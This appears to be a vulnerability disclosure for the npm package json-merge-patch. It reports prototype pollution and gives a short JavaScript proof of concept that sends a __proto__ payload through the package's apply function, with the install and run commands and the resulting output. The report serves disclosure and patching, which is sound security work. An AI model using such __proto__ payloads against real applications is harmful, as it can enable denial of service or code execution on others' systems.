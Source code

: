 # Description

`json-merge-patch` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
let jsonmergepatch = require("json-merge-patch");
jsonmergepatch.apply({}, JSON.parse('{ "__proto__": { "polluted": "Yes! Polluted" }}'));
console.log(polluted);
```
2. Execute the following commands in another terminal:

```bash
npm i json-merge-patch # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Yes! Polluted
```
